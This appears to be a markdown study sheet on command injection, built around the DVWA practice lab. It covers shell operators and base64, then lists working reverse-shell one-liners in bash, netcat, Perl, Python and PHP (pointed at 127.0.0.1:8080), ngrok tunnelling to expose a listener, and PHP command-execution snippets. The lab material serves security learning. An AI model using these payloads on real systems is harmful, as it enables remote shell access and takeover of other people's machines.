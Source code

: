 ## 2. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Command Injection Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**Listening**
```
nc -lvp 8080
```

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Netcat**
```
nc -e /bin/sh 127.0.0.1 8080
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```

# Bypassing

**Max Execution Time**
>It can be bypassed with htaccess
```
<IfModule mod_php5.c>
php_value max_execution_time 300
</IfModule>
```

**PHP Functions**
```
<?php
ini_set('max_execution_time', 360);
exec('whoami');
system('whoami');
passthru('whoami');
echo shell_exec('whoami');
echo `whoami`;
$handle = popen("/bin/whoami 2>&1", "r");
$output="";
if($handle) {
  while($tmp = fgets($handle))
      $output .= $tmp;
  $output .= "\n\nResult = " . pclose($handle);
}
else $output = "popen failed";
echo $output;
?>
```
